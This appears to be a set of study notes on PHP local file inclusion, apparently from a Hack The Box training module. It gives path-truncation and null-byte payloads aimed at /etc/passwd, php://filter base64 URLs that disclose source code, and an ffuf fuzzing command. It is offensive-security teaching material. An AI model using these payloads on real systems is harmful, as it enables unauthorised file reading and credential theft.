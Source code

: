 #### Path Truncation
```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```
#### Null Bytes
`/etc/passwd%00.php`
# PHP Filters
## Input Filters
`php://filter/`
[String Filters](https://www.php.net/manual/en/filters.string.php)
[Conversion Filters](https://www.php.net/manual/en/filters.convert.php)
[Compression Filters](https://www.php.net/manual/en/filters.compression.php)
[Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
## Fuzzing for PHP Files
```ffuf
ffuf -w /home/kali/Desktop/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
## Standard PHP Inclusion
```
http://<SERVER_IP>:<PORT>/index.php?language=config
```
## Source Code Disclosure
```url
php://filter/read=convert.base64-encode/resource=config
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```
![](https://academy.hackthebox.com/storage/modules/23/lfi_config_wrapper.png)

```decode
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```
# PHP Wrappers
## Data
The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations.
#### Checking PHP Configurations
**Apache**
`/etc/php/X.Y/apache2/php.ini`
**Nginx**
`/etc/php/X.Y/fpm/php.ini`
